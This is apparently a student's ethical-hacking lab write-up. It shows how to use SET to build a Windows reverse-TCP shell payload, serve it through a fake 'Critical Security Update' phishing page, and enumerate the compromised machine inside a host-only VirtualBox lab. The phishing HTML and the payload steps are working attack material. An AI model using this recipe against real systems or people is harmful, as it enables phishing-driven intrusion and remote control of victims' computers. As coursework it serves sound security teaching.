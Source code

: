 <div style="display: flex; justify-content: space-between; align-items: center;">
  <span style="text-align: left;"><strong>Horacio Gonzalez</strong></span>
  <span style="text-align: center;"><strong>SET and Armitage</strong></span>
  <span style="text-align: right;"><strong>ICT450 Ethical Hacking</strong></span>
</div>

#### **Overview**
In this lab we show the use of the Social Engineering Toolkit (SET), Metasploit, and Armitage for exploiting a Windows 8.1 machine. The steps include importing the Windows machine into VirtualBox, creating a reverse shell payload, hosting the payload using a phishing webpage, and using Armitage to exploit the system and gain control of the target machine.



#### **1. Environment Setup**
##### **1.1 Import the Windows 8.1 Machine into VirtualBox**
1. Open VirtualBox and navigate to **File** -> **Import Appliance**.
2. Select the `.ova` file for the Windows 8.1 virtual machine.
3. Follow the prompts and ensure the virtual machine is configured to use **Host-Only Adapter**.
4. Start the Windows 8.1 VM and log in with the following password:
   - **Password:** `AggiesR0ck$`

5. Click the Windows Key and search for Windows Defender
![alt text](image.png)   
6. Open Windows Defender, go to settings, disable Real Time Protection and Save changes.
![alt text](image-1.png)   

##### 1.2 Update and Configure Kali
1. Open a terminal in Kali Linux and update the system:
   ```bash
   sudo apt update -y && sudo apt full-upgrade -y
    ```
2. Start required services in Kali:
    ```
    sudo systemctl start apache2
    ```
3. Verify the services are running:
    ```
    sudo systemctl status apache2
    ```

#### **2. Using the Social Engineering Toolkit (SET) In Kali**
##### 2.1 Launch SET
1. We will start by launching SET, open a terminal and type:
   ```
   sudo setoolkit
    ```
![alt text](image-2.png)   
2. From the SET menu select `1) Social Engineering Attacks` and click enter (just enter the number and enter), then select `4) Create a Payload and Listener`.    

![alt text](image-4.png)   
![alt text](image-3.png)   

3. Then we will select the payload type, so enter `4) Windows Shell Reverse_TCP x64`    

![alt text](image-5.png)   

4. Configure the payload:
   1. LHOST: Enter the IP of your Kali machine `(192.168.56.4)` 
   2. LPORT: `443`   

![alt text](image-6.png)   
5. Allow SET to generate the payload but `do not` start the listener yet.   
![alt text](image-7.png)   
6. Just leave the terminal as it is and open a new terminal.

#### In a New Terminal
##### 2.2 Host the Payload,
1. Move the payload to the Apache web directory:
    ```
    sudo mv /root/.set/payload.exe /var/www/html/shPayload.exe
    ```
2. Verify the payload is in the correct directory:
    ```
    ls /var/www/html
    ```
![alt text](image-8.png)

##### 2.3 Create a Phishing Webpage
1. Create a fake HTML page to trick users into downloading the payload:
    ```
    echo '<html>
    <head><title>Important Update</title></head>
    <body>
    <h1>Critical Security Update</h1>
    <p>Click the link below to download the update:</p>
    <a href="shPayload.exe">Download Update</a>
    </body>
    </html>' | sudo tee /var/www/html/index.html
    ```
2. Verify the page is correctly saved:
    ```
    cat /var/www/html/index.html
    ```   
    ![alt text](image-9.png)   
3. Restart the Apache server to serve the payload and the webpage:
    ```
    sudo systemctl restart apache2
    ```

##### 2.4 Go back to the terminal with the payload we haven't started
1. Go back to the SET terminal and enter `yes` and hit Enter to start the payload listener.   

![alt text](image-10.png)    

2. SET will now wait for the reverse shell connection.
3. We can open a new terminal and check if we have done this correctly by checking the ports open with:
    ```
    sudo netstat -plnt
    ```   

    ![alt text](image-11.png)
4. Go back to the Metasploit/SET terminal and keep it open

##### 2.5 Go to the Windows machine
1. Inside the Windows machine open Firefox and go to (your Kali's IP):
    ```
    http://192.168.56.4
    ```    
![alt text](image-12.png)   
2. Download the payload
3. Go to the file location
4. Right-Click the file and click `Properties`    
![alt text](image-13.png)
5. Click `Unblock` and click `Apply`, then `OK`

![alt text](image-14.png)
6. Now open the File

##### 2.6 Inside the Kali Machine
1. We should see that a shell session was opened 
2. To list all the sessions opened
    ```
    sessions -l
    ```
3. Then to interact with the session
    ```
    sessions -i <sessionID>
    ```   

![alt text](image-15.png)   

4. If we did everything correctly, we should be inside the machine, so run a couple of commands to check if we are indeed inside the target and get info about the system.
    ```
    dir
    hostname
    wmic os get caption
    wmic computersystem get username
    wmic process list brief
    ```

![alt text](<Screenshot 2024-11-22 184434.png>)
5. Once we are done exploiting the Windows machine we can close the reverse shell entering `exit`.
6. We enter `exit` one more time to exit Metasploit.
7. We can now close the terminal.